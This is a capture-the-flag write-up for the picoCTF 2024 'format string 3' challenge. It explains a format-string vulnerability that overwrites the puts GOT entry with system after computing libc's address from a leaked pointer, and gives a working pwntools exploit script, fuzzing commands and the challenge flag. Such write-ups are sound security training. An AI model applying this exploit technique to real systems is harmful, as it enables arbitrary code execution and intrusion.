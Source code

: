 # format string 3 Writeup

Points: 300<br>
Challenge Author: SkrubLawd

Description:<br>
This program doesn't contain a win function. How can you win?

Hint:<br>
Is there any way to change what a function points to?

## Solution

Looking at the provided source code, we can see a suspicious variable normal_string, which is "/bin/sh". This suggests that we're meant to pop a shell. We can also see that this string is passed as an arguments for the final puts call. Knowing this (and with the hint to have a function point somwhere else), we can deduct that we need to change what the final puts call points to from puts(normal_string) to system(normal_string).<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/6b488607-2679-440f-b86e-002164e20b58)

Since puts is a libc function, it gets called via its got (global offset table) entry. if we can change this entry to point to system instead, we can pop a shell!

So, we check the got entry for puts in radare2 and see that its stored at 0x404018 (use the ```v``` command to change to visual mode)
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/7989ad93-9e98-4953-893e-eba048af8ae4)
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/3cdbef57-1481-4e4a-ac02-e77e66399445)

Next, we need to find a way to write to this address. The printf call in main looks like a good target since it's missing a format specifier.

By fuzzing the input with something like:<br>
```python3 -c 'print("A"*8 + ".%p"*50)' | ./format-string-3```<br>
We find that we control the offset at 38. I also wrote a small script to find the offset so I can reuse it for future challenges (find_offset.py).<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/d3d3572e-c12c-4ab9-9ea7-92e8369d727c)

Next, we need to determine the address of the system call at runtime. Luckily, the program "leaks" the address of setvbuf after it has been loaded. Now we can check the static offset from the libc start address and can determine the start address of libc at runtime:<br>
```readelf -s libc.so.6 | grep setvbuf```<br>
This gives us the offset of setvbuf from the libc start address, which is 0x7a3f0<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/edfa4b97-a485-46de-b2bc-76b2f660d97b)

Now, we can calculate the libc address at runtime using the leaked address and the offset we just found:<br>
leaked_address - 0x7a3f0 = loaded_libc_start

In a similar fashion, we can now calculate the address of the system call at runtime:<br>
```readelf -s libc.so.6 | grep system```<br>
this gives us the offset of setvbuf from the libc start address, which is 0x4f760<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/b80ecc01-9fb2-49bd-8790-1de8d999173a)

Now, we can calculate the system call address at runtime using the libc start address and the offset we just found:<br>
system_call_address = libc_start + 0x4f760<br>

Finally, we have everything together to write our exploit in python using pwntools!
```
from pwnlib.fmtstr import fmtstr_payload
from pwn import *

context.clear(arch = 'amd64')

p = process('./format-string-3')

#p = remote('rhea.picoctf.net', 50329)

p.recvuntil(": ")
received = p.recvline().strip()
leaked_address = int(received,16)

libc_start = leaked_address - 0x7a3f0
system_call = libc_start + 0x4f760

payload = fmtstr_payload(38, {0x404018 : system_call}) #overwriting the got entry for puts

p.sendline(payload)
p.interactive()
```
And just like that, we have popped a shell and can get the flag!<br>
```picoCTF{G07_G07?_6d11af9f}```<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/45f1d7a1-ba3c-41b9-ae66-cc05f8b9c6bf)
